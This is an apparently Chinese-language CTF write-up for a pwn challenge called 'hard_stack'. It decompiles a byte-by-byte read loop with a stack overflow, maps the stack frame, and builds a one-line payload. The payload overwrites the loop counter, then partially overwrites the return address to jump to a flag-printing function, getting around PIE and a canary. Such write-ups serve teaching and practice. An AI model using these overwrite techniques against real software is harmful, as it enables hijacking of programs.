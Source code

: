 先 `checksec` 一下
```sh
┌──(kali㉿helloeveryone)-[~/ctf/pwn/q20_hardstack]
└─$ checksec --file=hard_stack
[*] '/home/kali/ctf/pwn/q20_hardstack/hard_stack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
没有金丝雀, 地址随机化, 用户栈不可执行

再丢进ida看眼，`F5`一下

main:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+18h] [rbp-8h]

  setvbuf(stdout, 0LL, 2, 0LL);
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Something wrong with flag file.");
    exit(0);
  }
  fgets(s, 64, stream);//将字符串读到s中
  sub_400acd();
  puts("Bye~");
  return 0;
}
```

sub_400acd:
```c
ssize_t sub_400acd()
{
  ssize_t result; // rax
  char buf[45]; // [rsp+Fh] [rbp-31h] BYREF
  int i; // [rsp+3Ch] [rbp-4h]

  puts("Who are you?");
  for ( i = 0; ; ++i )
  {
    result = read(0, buf, 1uLL);                //一次从缓冲区读一个字节
    if ( result != 1 )
      break;
    result = (unsigned __int8)buf[0];
    if ( buf[0] == '\n' )
      break;
    buf[i + 1] = buf[0];                        // 漏洞:只要没有读入换行符或EOF就会一直读，造成栈溢出
  }
  return result;                                // 可以劫持程序流程
}
```
在ida里看看其他函数

找到一个获得flag的函数 `sub_40076d`
```c
int sub_40067d()
{
  return puts(s);                               //s即为刚刚读取flag的字符串地址
}
```
现在可以分析一下漏洞函数 `sub_400acd` 的栈了
```
-0000000000000040                 db ? ; undefined
-000000000000003F                 db ? ; undefined
-000000000000003E                 db ? ; undefined
-000000000000003D                 db ? ; undefined
-000000000000003C                 db ? ; undefined
-000000000000003B                 db ? ; undefined
-000000000000003A                 db ? ; undefined
-0000000000000039                 db ? ; undefined
-0000000000000038                 db ? ; undefined
-0000000000000037                 db ? ; undefined
-0000000000000036                 db ? ; undefined
-0000000000000035                 db ? ; undefined
-0000000000000034                 db ? ; undefined
-0000000000000033                 db ? ; undefined
-0000000000000032                 db ? ; undefined
-0000000000000031 buf             db ?
-0000000000000030 var_30          db ?
-000000000000002F                 db ? ; undefined
-000000000000002E                 db ? ; undefined
-000000000000002D                 db ? ; undefined
-000000000000002C                 db ? ; undefined
-000000000000002B                 db ? ; undefined
-000000000000002A                 db ? ; undefined
-0000000000000029                 db ? ; undefined
-0000000000000028                 db ? ; undefined
-0000000000000027                 db ? ; undefined
-0000000000000026                 db ? ; undefined
-0000000000000025                 db ? ; undefined
-0000000000000024                 db ? ; undefined
-0000000000000023                 db ? ; undefined
-0000000000000022                 db ? ; undefined
-0000000000000021                 db ? ; undefined
-0000000000000020                 db ? ; undefined
-000000000000001F                 db ? ; undefined
-000000000000001E                 db ? ; undefined
-000000000000001D                 db ? ; undefined
-000000000000001C                 db ? ; undefined
-000000000000001B                 db ? ; undefined
-000000000000001A                 db ? ; undefined
-0000000000000019                 db ? ; undefined
-0000000000000018                 db ? ; undefined
-0000000000000017                 db ? ; undefined
-0000000000000016                 db ? ; undefined
-0000000000000015                 db ? ; undefined
-0000000000000014                 db ? ; undefined
-0000000000000013                 db ? ; undefined
-0000000000000012                 db ? ; undefined
-0000000000000011                 db ? ; undefined
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004 var_4           dd ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```
`buf` 和 `var_30` 占45字节，属于 `buf[45]` , `var_4` 则是变量 `i` 

由此，可以有一种思路: 将 `buf` 溢出覆盖 `i` 实现栈上任意写

构造payload:
```python
payload=b'a'*44+b'\x37'+b'\x42'
```
前44个a是垃圾占位字符，填充 `-0000000000000030` 到 `-0000000000000005` (ps:因为 `-0000000000000031` 总是储存当前字符)

后面写一个 `0x37` , 即将 `i` 改成55。这是考虑到for循环后要有 `i++` , 即下一次写入的地址是 `buf[(i++)+1]` , 此地址即为 `buf[57]` = `-0x31+0x39=0x8` , 就是返回地址的第一个字节

下面解释payload最后一字节:

首先，地址随机化只是进行页的随机化，一页的大小是 `0x1000` , 也就是说同一页上地址的后三位不会改变。

其次，小端储存，是指以字节为单位，低数位储存在低地址，高数位储存在高地址。返回地址是 `call    _sub_400acd` 指令的下一条，地址即 `0x00000000000008D8` , 所以我们最后是将上述地址覆盖成 `0x0000000000000842` , 这正是 `sub_40067d()` 的地址。这样我们就把程序劫持到该函数上打印flag

PS: 由于金丝雀是在栈上变量之后， `rbp` 和返回地址之前，我们可以通过数组索引避开金丝雀实现栈溢出，所以本题开了 `canary` 也可以做